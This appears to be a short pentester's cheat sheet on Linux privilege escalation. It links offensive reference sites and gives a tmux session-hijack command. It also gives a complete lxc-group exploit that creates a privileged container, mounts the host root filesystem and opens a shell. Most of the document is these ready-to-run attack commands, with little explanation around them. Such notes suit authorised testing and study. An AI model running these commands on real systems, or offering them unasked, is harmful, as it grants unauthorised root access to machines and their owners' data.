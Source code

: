 # privesc
If there are scripts being invoked in a directory you have access to/own but you don't own the files themselves, you can simply delete the file and create a new one :)

[https://lolbas-project.github.io/#](https://lolbas-project.github.io/#)

[https://wadcoms.github.io/](https://wadcoms.github.io/)

[https://filesec.io/](https://filesec.io/)

[https://malapi.io/](https://malapi.io/)

[https://lots-project.com/](https://lots-project.com/)

Apparmor can limit capabilities on programs, preventing standard privesc, check the apparmor “config” file for the program under `/etc/apparmor.d/usr.bin.<program>`, which can allow certain commands/processes to run, such as copying files(with a certain name/location) with root etc.,

To privesc or access tmux sessions, use:

```text-plain
tmux attach-session -t 0
```

**lxc group**
-------------

```text-plain
lxc image import ./apline.tar --alias myimage

lxc init myimage ignite -c security.privileged=true

lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true

lxc start ignite

lxc exec ignite /bin/sh
```